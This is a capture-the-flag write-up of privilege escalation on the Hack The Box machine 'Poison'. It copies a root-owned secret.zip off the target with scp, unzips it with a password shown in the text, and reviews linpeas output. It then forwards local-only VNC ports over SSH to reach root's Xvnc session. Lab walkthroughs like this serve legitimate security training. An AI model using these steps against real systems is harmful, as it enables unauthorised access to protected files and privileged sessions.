

# 15 - PrivEsc

# secret.zip
```bash
charix@Poison:~ % ls -l                                                                                              
total 48                                                                                                                                                                                                                                                                                                
-rw-r-----  1 root    charix   166 Mar 19  2018 secret.zip                                                                                                                                                                                   
-rw-r-----  1 root    charix    33 Mar 19  2018 user.txt                                                                                                                                                                                     
```


# Let us move that secret.zip file to our box and unzip it

```bash
┌──(kali㉿kali)-[10.10.14.6/23]-[~/htb/poison/server]
└─$ scp charix@10.10.10.84:secret.zip .
┌──(kali㉿kali)-[10.10.14.6/23]-[~/htb/poison/server]
└─$ unzip secret.zip
Password:Charix!2#4%6&8(0
┌──(kali㉿kali)-[10.10.14.6/23]-[~/htb/poison/server]
└─$ file secret
secret: Non-ISO extended-ASCII text, with no line terminators
┌──(kali㉿kali)-[10.10.14.6/23]-[~/htb/poison/server]
└─$ cat secret
[|Ֆz!┌
```
This doesn't mean anything


# linpeas.sh

```sql
[+] Active Ports
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports
tcp4       0      0 localhost.smtp         *.*                    LISTEN
tcp4       0      0 *.http                 *.*                    LISTEN
tcp6       0      0 *.http                 *.*                    LISTEN
tcp4       0      0 *.ssh                  *.*                    LISTEN
tcp6       0      0 *.ssh                  *.*                    LISTEN
tcp4       0      0 localhost.5801         *.*                    LISTEN
tcp4       0      0 localhost.5901         *.*                    LISTEN
```

# Xvnc is installed on the box
```bash
charix@Poison:~ % ps aux 
root   529   0.0  0.9  23620  8964 v0- I    18:27    0:00.03 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport 5901 -localhost -nolisten tcp :1
root   540   0.0  0.7  67220  7056 v0- I    18:27    0:00.02 xterm -geometry 80x24+10+10 -ls -title X Desktop
```

Xvnc is the X VNC (Virtual Network Computing) server. It is based on a standard X server, but it has a "virtual" screen rather than a physical one. X applications display themselves on it as if it were a normal X display, but they can only be accessed via a VNC viewer - see vncviewer(1).

The problem is xvnc is only locally available we need a way of accessing that port from our box.

# SSH tunneling

```bash
$ ssh -L5901:localhost:5901 -L5801:localhost:5801 -l charix 10.10.10.84
```
This will open ports 5901 and 5801 on our box and send every traffic on these ports to the otherside of the ssh connection and the receiver will redirect the traffic to either 5901 or 5801  on localhost.

Once the connection is established, we can check these ports

```bash
┌──(kali㉿kali)-[10.10.14.6/23]-[~/htb/poison]
└─$ curl localhost:5801
<HEAD><TITLE>File Not Found</TITLE></HEAD>
<BODY><H1>File Not Found</H1></BODY>
┌──(kali㉿kali)-[10.10.14.6/23]-[~/htb/poison]
└─$ curl localhost:5901
curl: (1) Received HTTP/0.9 when not allowed
```

# Xvncviewer

We should now be able to use xvncviewer, however there is something missing.  A password is required, let's give  **secret** a chance.

